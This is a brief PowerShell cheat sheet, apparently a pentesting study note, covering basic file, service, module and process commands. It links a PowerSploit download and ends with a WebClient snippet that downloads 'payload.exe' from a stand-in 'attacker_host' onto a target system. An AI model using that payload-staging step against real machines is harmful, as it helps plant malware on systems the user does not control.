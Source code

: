 # Get Content
`Get-Content C:\Users\ryane\Documents\file.txt`

# Get Service
`Get-Service`

# Get Services starting with S in descending order
`Get-Service "s*" | Sort-Object Status -Descending`

#####################################
# Modules
#####################################

# Currently Imported Modules
`Get-Module`

# List All Available Modules
`Get-Module -ListAvailable`

# Import Module
`Import-Module .\module.psm1`

# PowerSploit Download 
`https://github.com/PowerShellMafia/PowerSploit/archive/master.zip`

#####################################
# Objects
#####################################

# Get List of Methods for Object
`Get-Process | Get-Member -MemberType Method`

# Get Process and Kill
`Get-Process -Name "firefox" | Kill`

# Create Object To Download file to a target system
`$webclient = New-Object System.Net.WebClient`
`$payload_url = "https://attacker_host/payload.exe"`
`$file = "C:\ProgramData\payload.exe"`
`$webclient.DownloadFile($payload_url,$file)`
